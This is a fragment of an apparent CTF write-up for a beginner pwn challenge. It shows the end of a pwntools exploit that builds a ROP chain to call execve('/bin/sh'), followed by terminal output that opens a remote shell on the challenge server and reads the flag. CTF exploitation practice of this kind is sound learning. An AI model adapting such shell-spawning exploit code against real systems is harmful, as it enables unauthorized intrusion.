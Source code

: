 ```python
payload += p64(0) # rsi
payload += p64(0) # rdx
payload += p64(bss + 8) # r15
payload += p64(csu2)

payload += " "
payload += str(main)

r.sendline(payload)

r.send("/bin/sh\x00" + p64(syscall) + "\x3b")

r.interactive()
```

```shell
dr-nibe@ubuntu:~/TSG2020$ python exploit_beginners_pwn.py
[+] Opening connection to 35.221.81.216 on port 30002: Done
[*] Switching to interactive mode
$ whoami
user
$ cat flag
TSGCTF{w3lc0m3_70_756c7f2_60_4h34d_pwnpwn~}
```

